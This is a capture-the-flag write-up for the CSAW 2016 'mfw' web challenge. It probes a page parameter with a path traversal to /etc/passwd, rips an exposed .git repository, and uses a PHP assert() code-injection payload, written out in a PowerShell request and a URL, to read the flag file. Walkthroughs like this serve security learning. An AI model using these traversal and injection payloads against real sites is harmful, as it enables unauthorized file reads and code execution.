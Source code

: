 ```yaml
---
title: '[CSAW 2016] mfw Writeup'
author: Megabeets
type: post
date: 2016-09-18T22:02:18+00:00
url: /csaw-2016-mfw-writeup/
categories:
  - CSAW CTF 2016
  - Writeups
tags:
  - CSAW-2016
  - CTF
  - Web

---
```

#### **Description:**

> Hey, I made my first website today. It&#8217;s pretty cool and web7.9.  
> <http://web.chal.csaw.io:8000/>

&nbsp;

Entering the site, the first thing that comes to mind is a LFI attack. The site is including a page which is requested in the URL.

The following table describes the possible respond pages:

<table style="width: 945px;">
  <tr>
    <td style="width: 418.869px;">
      <strong>URL</strong>
    </td>
    
    <td style="width: 484.131px;">
      <strong>Result</strong>
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=home
    </td>
    
    <td style="width: 484.131px;">
      The &#8220;home&#8221; page is shown.
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=about
    </td>
    
    <td style="width: 484.131px;">
      The &#8220;about&#8221; page is shown.
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=contact
    </td>
    
    <td style="width: 484.131px;">
      The &#8220;contact&#8221; page is shown.
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=Megabeets
    </td>
    
    <td style="width: 484.131px;">
      Just a message saying: &#8220;That file doesn&#8217;t exist!&#8221;
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=flag
    </td>
    
    <td style="width: 484.131px;">
      An empty page is shown <strong>inside </strong>the website.
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=../../../../etc/passwd
    </td>
    
    <td style="width: 484.131px;">
      Just a message saying: &#8220;Detected hacking attempt!&#8221;
    </td>
  </tr>
</table>

Looking at the source code i saw the following comment:

<pre class="lang:php decode:true">&lt;!--&lt;li &gt;&lt;a href="?page=flag"&gt;My secrets&lt;/a&gt;&lt;/li&gt; --&gt;</pre>

Ok, I need to get the &#8220;flag&#8221; page but any LFI technique I tried didn&#8217;t work. I thought about something else, In the &#8220;about&#8221; page the creator of the site mentioned that it was built using git. So let&#8217;s see if I am able to download the repository. The page http://web.chal.csaw.io:8000/.git/config exists so I downloaded the repository using <a href="https://github.com/kost/dvcs-ripper" target="_blank">DVCS-RIPPER</a>.

You can find index.php [here][1].

So the page is using assert() which is vulnerable to Command Injection attack. After a little trial and error I came up with the answer:

<pre class="lang:ps decode:true">(Invoke-WebRequest "http://web.chal.csaw.io:8000/?page=Megabeets') || var_dump(file_get_contents('templates/flag.php'));// Comment").Content</pre>

And received the flag:

<pre class="lang:php decode:true">string(52) "&lt;?php $FLAG="flag{3vald_@ss3rt_1s_best_a$$ert}"; ?&gt;
"
Detected hacking attempt!</pre>

If you try entering [the url][2] in a browser, look in the source of the page (CTRL+U), the flag is commented.

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img class="wp-image-149 alignnone" src="https://www.megabeets.net/uploads/megabeets_inline_logo.png" alt="megabeets_inline_logo" width="61" height="45" />Eat Veggies</a>
  </p>
</div>

 [1]: https://gist.github.com/ITAYC0HEN/20edf000082b0765b493fb893cec96de
 [2]: http://web.chal.csaw.io:8000/?page=Megabeets') || var_dump(file_get_contents('templates/flag.php'));// Comment the rest of the line